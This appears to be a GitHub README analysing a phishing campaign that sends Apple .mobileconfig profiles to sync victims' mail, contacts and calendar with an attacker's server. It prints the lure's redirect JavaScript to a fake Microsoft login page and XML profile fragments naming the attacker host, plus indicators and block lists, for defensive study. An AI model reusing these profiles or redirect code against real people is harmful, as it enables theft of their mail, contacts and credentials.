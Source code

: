 # Phishing-apple-mobileconfig-breakdown
Analysis of a phishing campaign using Apple .mobileconfig profiles for email, contacts, and calendar exfiltration.

## Background

This repository was created using the files and information from a phishing email I personally received.  
I regularly analyze phishing attempts I encounter, both out of curiosity and to stay aware of evolving techniques. In this case, while the email itself was part of a typical mass phishing campaign and used fairly standard methods, I chose to document it here as a **learning resource** for others.  
The campaign leverages Apple `.mobileconfig` profiles which may be useful for those studying mobile or configuration-based threats.

**Don't open the `.mobileconfig` files on an iPhone**
The phishing site is likely down by the time I post this but it may still attempt installing profiles on your phone.

---


![82628182](https://github.com/user-attachments/assets/d2108cb0-d1e9-4708-a62b-8f1186df4aba)




## Summary

This repository documents a phishing campaign observed in May 2025 that targets Apple device users by abusing `.mobileconfig` files — a lesser-known but legitimate configuration mechanism used on iOS and macOS systems. The campaign delivers three malicious configuration profiles via email, each designed to silently configure the victim’s device for data exfiltration.

Once installed, these profiles automatically connect the victim's device to attacker-controlled infrastructure by:
- Adding a **malicious IMAP/SMTP email account**
- Syncing the device's **contacts** via CardDAV
- Accessing the user's **calendar** via CalDAV

All payloads are disguised as part of a “Secure Setup” and reference domains that appear vaguely professional (e.g., `eu40.1host.gr`). While the phishing email itself was generic and mass-distributed.

---

## Key Findings

- Delivered via phishing email impersonating Microsoft  
- `.mobileconfig` profiles install silently on iOS/macOS devices  
- Targets:
  - **Mail** (`com.apple.mail.managed`)
  - **Contacts** (`com.apple.carddav.account`)
  - **Calendar** (`com.apple.caldav.account`)
- Backend controlled by attacker at `mail.blutr.gr`  
- SSL misconfiguration (port 2080) used to avoid detection  
- Redirection script used to fake legitimacy and lure users to spoofed login page  

---

## Email Payload Overview

**Sender (spoofed):**
```
info.mail.mr@mi-robotic.com
```

**Observed Subject:**
```
Microsoft Secure Document Access
```

**Malicious Attachments:**
- `email-gdgraphic.mobileconfig`
- `carddav-gdgraphic.mobileconfig`
- `caldav-gdgraphic.mobileconfig`

---

## Redirection JavaScript

This JavaScript is embedded in a fake Billing Details button:

```javascript
setTimeout(() => {
  document.getElementById("loader").style.display = 'block';
  document.getElementById("success").style.display = 'block';
}, 100);

setTimeout(() => {
  window.location.href = "https://live.microsoft.outh.sso.50-6-202-90.cprapid.com/?Xkjvaksk121asIghlasdqwe";
}, 1000);
```

### Purpose:
- Displays a fake success/loading screen
- The portion of the url "https://live.microsoft.outh.sso." is added to make the link seem legitimate.
- Redirects to their phishing site impersonating Microsoft’s login page. 
- Uses `cprapid.com` webhosting company where the attacker is hosting their landing page.

---

## `.mobileconfig` Payloads Breakdown

### 1. Mail Account Configuration

```xml
<key>PayloadType</key>
<string>com.apple.mail.managed</string>
<key>EmailAddress</key>
<string>blutrgr@eu40.1host.gr</string>
<key>IncomingMailServerHostName</key>
<string>mail.blutr.gr</string>
<key>IncomingMailServerPortNumber</key>
<integer>993</integer>
<key>OutgoingMailServerPortNumber</key>
<integer>465</integer>
```

- Configures Apple Mail with IMAP/SMTP  
- SSL used on standard ports (993/465)  
- Server controlled by attacker  
- Enables attacker to monitor or send mail from the device  

---

### 2. CardDAV (Contacts)

```xml
<key>PayloadType</key>
<string>com.apple.carddav.account</string>
<key>CardDAVHostName</key>
<string>mail.blutr.gr:2080</string>
```

- Syncs the user’s address book with the attacker’s server  
- Port 2080 is suspicious — not standard for SSL or CardDAV  
- Can exfiltrate names, phone numbers, and email addresses  

---

### 3. CalDAV (Calendar)

```xml
<key>PayloadType</key>
<string>com.apple.caldav.account</string>
<key>CalDAVHostName</key>
<string>mail.blutr.gr</string>
<key>CalDAVPort</key>
<integer>2080</integer>
```

- Syncs user calendar to attacker infrastructure  
- May enable the injection of malicious or misleading events  

---

## Indicators of Compromise (IOCs)

| Type            | Value                                                  |
|-----------------|--------------------------------------------------------|
| Email           | `blutrgr@eu40.1host.gr`                                |
| Hostname        | `mail.blutr.gr`                                        |
| Fake MS login   | `live.microsoft.outh.sso.50-6-202-90.cprapid.com`      |
| Ports           | 993, 465, **2080**                                     |
| File Types      | `.mobileconfig`                                        |
| Payload Types   | `com.apple.mail.managed`, `com.apple.carddav.account`, `com.apple.caldav.account` |

---

## Mitigation and Detection

### For Individuals:
- Never install `.mobileconfig` files unless provided by verified IT personnel  
- On iOS: **Settings > General > VPN & Device Management**  
- On macOS: **System Settings > Profiles**

### For Organizations:
- Block `.mobileconfig` attachments at email gateway  
- Monitor or block outbound traffic to:
  - `mail.blutr.gr`
  - `*.1host.gr`
  - `*.cprapid.com` (especially from Apple devices)
- Disable unmanaged profile installation via MDM policies  
- Watch for CardDAV/CalDAV traffic over non-standard ports (e.g. 2080)

---

## Conclusion

This campaign demonstrates a clever and low-interaction method of data exfiltration using trusted Apple device features. By leveraging `.mobileconfig` profiles, attackers bypass traditional phishing detection and gain persistent access to sensitive information.

### This repository contains:
- Sample redacted profiles for reference (`.mobileconfig` file's)
- Indicators of compromise.
- Write-up to raise awareness of configuration profile abuse.
   


